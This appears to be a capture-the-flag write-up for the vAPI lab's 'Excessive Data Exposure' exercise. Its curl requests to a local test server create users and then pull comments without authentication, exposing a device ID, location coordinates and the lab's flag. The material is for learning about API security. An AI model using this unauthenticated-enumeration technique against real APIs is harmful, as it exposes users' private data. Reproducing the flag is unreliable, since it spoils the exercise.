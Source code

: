 # Excessive Data Exposure
> We have all been there , right? Giving away too much data and the Dev showing it . Try the Android App in the Resources folder

# Tools Used:
```
curl 8.8.0 (x86_64-pc-linux-gnu)
```

# Create User
## POST /vapi/api3/user

Create a user
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    --data-binary $'{\x0d\x0a    \"username\":\"\",\x0d\x0a    \"password\":\"\",\x0d\x0a    \"name\":\"\"\x0d\x0a}' \
    $'http://localhost/vapi/api3/user'
```
```http
HTTP/1.1 201 Created
Host: localhost
Date: Wed, 26 Jun 2024 16:16:46 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Wed, 26 Jun 2024 16:16:46 GMT
Content-Type: application/json

{"username":"","name":"","id":2}
```

```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    --data-binary $'{\x0d\x0a    \"username\":\"myusername\",\x0d\x0a    \"password\":\"mypassword\",\x0d\x0a    \"name\":\"myname\"\x0d\x0a}' \
    $'http://localhost/vapi/api3/user'
```
```http
HTTP/1.1 201 Created
Host: localhost
Date: Wed, 26 Jun 2024 16:20:41 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Wed, 26 Jun 2024 16:20:41 GMT
Content-Type: application/json

{"username":"myusername","name":"myname","id":11}
```

# Get Comment
## GET /vapi/api3/comment

Supposedly this was meant to be sent from using the mobile application, but I was too lazy to set up Android Studio

Get comment.
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Content-Type: application/json' -H $'Host: localhost' -H $'Content-Length: 4' \
    --data-binary $'{\x0d\x0a}' \
    $'http://localhost/vapi/api3/comment'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Wed, 26 Jun 2024 16:26:50 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Wed, 26 Jun 2024 16:26:50 GMT
Content-Type: application/json

[{"id":1,"postid":"1","deviceid":"flag{api3_0bad677bfc504c75ff72}","latitude":"45.5426274","longitude":"-122.7944111","commenttext":"THIS POST IS SH***Y","username":"baduser007"}]
```

- Observe that even without authentication, we are able to get a response from the application showing the comment.
- Observe that the comment provides an excessive information such as "deviceid"

API3 Flag
```
flag{api3_0bad677bfc504c75ff72}
```

References:
https://zerodayhacker.com/using-an-android-emulator-for-api-hacking/
https://owasp.org/API-Security/editions/2019/en/0xa3-excessive-data-exposure/

